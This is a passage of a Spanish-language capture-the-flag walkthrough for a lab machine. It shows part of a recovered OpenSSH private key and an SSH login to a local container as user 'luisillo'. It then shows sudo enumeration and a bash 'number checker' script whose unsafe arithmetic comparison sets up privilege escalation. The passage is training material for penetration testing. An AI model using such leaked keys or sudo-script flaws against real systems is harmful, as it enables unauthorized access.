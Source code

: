 ```bash
ZlGq3Vy+kGXoizEcqejoh7DdFsMJRaDJqspuPzPz/k1gxh46yZN6Zvetx8bWDAqQy5CJN+
96bq152o9/eOu6ZjzkMOpqv2+UAQNzbH7tEcgTwYTJeb6gSWd/Wr3iFO0cuU3m3/wfSHge
2j6a/+s4zubtdYZl9xJKqfkGOU7d8cWyzndYYEczNrGPl1bNYZQMtYFjgWa8Cp82sy4nxJ
MixSXDn8CnuxAAAAFHR1X2VtYWlsQGV4YW1wbGUuY29tAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```

Una ves la llave guardada en nuestro sistema, Procedmeos a darle permisos:
```bash
chmod 600 id_rsa
```

Hemos ganado acceso como este usuario: **lusiillo**
```bash
ssh-keygen -R 172.17.0.2 && ssh -i id_rsa luisillo@172.17.0.2
```

---
## Escalada de Privilegios

### Explotacion de Privilegios
###### Usuario `[ Nombre-Usuario ]`:
Enumerando los permisos del usuario tenemos lo siguiente:
```bash
User luisillo may run the following commands on 8baec253c6e8:
    (ALL) NOPASSWD: /bin/cube
```

Revisando el codigo fuente es un script de bash:
```bash
#!/bin/bash

# Inicio del script de verificación de número
echo -n "Checker de Seguridad "

# Solicitar al usuario que ingrese un número
echo "Por favor, introduzca un número para verificar:"

# Leer la entrada del usuario y almacenar en una variable
read -rp "Digite el número: " num

# Función para comprobar el número ingresado
echo -e "\n"
check_number() {
  local number=$1
  local correct_number=666

  # Verificación del número ingresado
  if [[ $number -eq $correct_number ]]; then
    echo -e "\n[+] Correcto"
  else
    echo -e "\n[!] Incorrecto"
  fi
}

# Llamada a la función para verificar el número
check_number "$num"

# Mensaje de fin de script
echo -e "\n La verificación ha sido completada."
```
